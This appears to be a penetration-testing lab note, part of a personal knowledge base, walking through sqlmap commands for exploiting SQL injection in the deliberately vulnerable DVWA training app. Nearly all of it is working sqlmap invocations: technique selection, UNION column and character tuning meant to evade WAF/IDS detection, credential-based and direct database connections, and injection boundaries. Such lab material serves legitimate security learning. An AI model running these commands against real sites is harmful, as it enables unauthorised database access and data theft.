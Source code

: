 # 01 - Exploit

#sql-injection #sqlmap #dvwa

TODO: Fill in the rest of the output when necessary

- SQLMap will automate by injecting queries of every possible techniques by default it uses `--technique=BEUSTQ` and it'll enumerate a backend database.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --method="GET" --random-agent
```

## 1.1 - Specify Database Management System Backend

- Force the DBMS to skip automatic enumeration using the flag `--dbms=mysql`

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --method="GET" --random-agent --dbms=mysql
```

## 1.2 - Authentication methods without using cookies

### 1.2.1 - Form-based authentication

- You can provide the credentials to the login panel without specifying cookies.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --auth-type=Basic --auth-cred="admin:password" --method="GET" --random-agent
```

### 1.2.2 - Direct connection to the database

- If the DBMS backend has an exposed port when probing the server with `nmap` and you have credentials.

```
$ sqlmap -d "mysql://dvwa:"p@ssw0rd"@dvwa.local:3306/dvwa" -f --banner --dbs --users
```

## 1.3 - Specify SQL query technique

- You can specify SQL injection techniques. It also speeds up the process.

### 1.3.1 - Boolean-Based Query SQL Injection

- We can also specify a boolean-based blind query that can be used for bypassing form-based authentication.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --method="GET" --random-agent --dbms=mysql --technique=B
```

### 1.3.2 - Error-Based Query SQL Injection

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --method="GET" --random-agent --dbms=mysql --technique=E
```

### 1.3.3 - UNION Query SQL Injection

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --method="GET" --random-agent --dbms=mysql --technique=U
```

- You can specify number of columns after performing [[Pentesting Phases/WebApp Hacking/Injection/SQL Injection/01 - In-Band SQL Injection/Lab/DVWA/Difficulty/Low/Manual/03 - UNION Query SQL Injection/01 - Database Reconnaissance#^78ef92|fields enumeration]].

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --method="GET" --random-agent --dbms=mysql --technique=U --union-cols=2
```

- By default when enumerating the number of fields it uses `NULL` character. In some instances that WAF/IDS might flag it. We can use `--union-char` with a random combination of characters.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --method="GET" --random-agent --dbms=mysql --technique=U --union-cols=2 --union-char="1234567890"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --method="GET" --random-agent --dbms=mysql --technique=U --union-cols=2 --union-char="ABCDEFGHIJKLMNOPQRSTUVWXYZ"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --method="GET" --random-agent --dbms=mysql --technique=U --union-cols=2 --union-char="abcdefghijklmnopqrstuvwxyz"
```

- Some instances of DBMSes may require a valid table in order to proceed by exploiting the vulnerability. Especially when it comes to UNION technique we can use `--union-from` to specify the table `mysql.user` that comes by default in MySQL.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --method="GET" --random-agent --dbms=mysql --technique=U --union-cols=2 --union-from=mysql.user
```

## 1.4 - Specify Boundaries

- You can specify the boundaries with flags `--prefix="'"` and `--suffix="#"` after performing manual enumeration in the [[02 - Craft Exploit#^a3394c|joining the query]] section.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --method="GET" --random-agent --dbms=mysql --prefix="'" --suffix="#" --technique=U
```